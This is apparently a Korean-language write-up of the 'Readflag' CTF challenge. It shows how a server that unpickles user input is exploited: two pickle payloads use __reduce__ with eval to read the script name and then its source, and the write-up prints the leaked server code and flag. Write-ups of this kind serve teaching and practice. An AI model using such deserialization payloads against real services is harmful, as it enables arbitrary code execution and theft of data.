

# Readflag (100 pts.)



먼저 문제에서 준 파일들을 살펴보자

### send.sh

```bash
#!/bin/bash
python dump.py | nc 0 55402
```

### dump.py

```python
from pickle import dumps

print dumps([1, 2, 3])+'#'
```

음.. `dump.py`의 결과물을 서버로 한번 전송해보기로 했다.

```bash
~/D/h/C/S/readFlag ❯❯❯ nc readflag.eatpwnnosleep.com 55402
(lp0
I1
aI2
aI3
a.#
Your inp is [1, 2, 3]
Your inp must be a list which sum of elements is 10
Try again :P
```

결론 : `pickle`의 `dumps`를 한걸 보내주면 그걸 `loads`하는 문제.

`pickle`을 `loads`하는 과정에서 임의로 코드를 실행할 수 있는 점을 이용하면 됐다.

현재 실행되고 있는 python 파일의 이름을 알아내고 그 소스를 읽어오면 된다.

### Exploit
파일 이름 읽어오기

```python
import pickle

class payload(object):
    def __reduce__(self):
       return (eval, ("sys.argv[0]", )) # test.py

print pickle.dumps(payload()) + '#'
```

소스 읽어오기

```python
import pickle

class payload(object):
    def __reduce__(self):
       return (eval, ("open('test.py').read()", ))

print pickle.dumps(payload()) + '#'
```

결과 :

```python
from pickle import loads
import sys
from os import chroot, chdir, setresgid, setresuid
from seccomp import *

UID = 65535

f = SyscallFilter(defaction=KILL)
f.add_rule(ALLOW, "open")
f.add_rule(ALLOW, "read")
f.add_rule(ALLOW, "write", Arg(0, EQ, 1))
f.add_rule(ALLOW, "write", Arg(0, EQ, 2))
f.add_rule(ALLOW, "close")
f.add_rule(ALLOW, "ioctl")
f.add_rule(ALLOW, "stat")
f.add_rule(ALLOW, "fstat")
f.add_rule(ALLOW, "lseek")
f.add_rule(ALLOW, "kill")
f.add_rule(ALLOW, "brk")
f.add_rule(ALLOW, "rt_sigaction")
f.add_rule(ALLOW, "exit_group")

setresgid(UID, UID, UID)
setresuid(UID, UID, UID)

f.load()

C4n_y0u_r34d_7h15 = 'SCTF{3a5y_e4zy_p1ckl1ng}'

filtering = ['__dict__']

inp = ''
while True:
    one_byte = sys.stdin.read(1)
    if one_byte == '#':
        break
    inp += one_byte

if len(inp) > 60:
    print 'too long'
    exit()

if any(item in inp for item in filtering):
    print 'filtered'
    exit()

inp = loads(inp)
print 'Your inp is {}'.format(inp)

if not isinstance(inp, list) or sum(inp) != 10:
    print 'Your inp must be a list which sum of elements is 10'
    print 'Try again :P'
else:
    print 'Good Job!'
    print 'Now you are a python expert!'
```


### Flag : SCTF{3a5y_e4zy_p1ckl1ng}
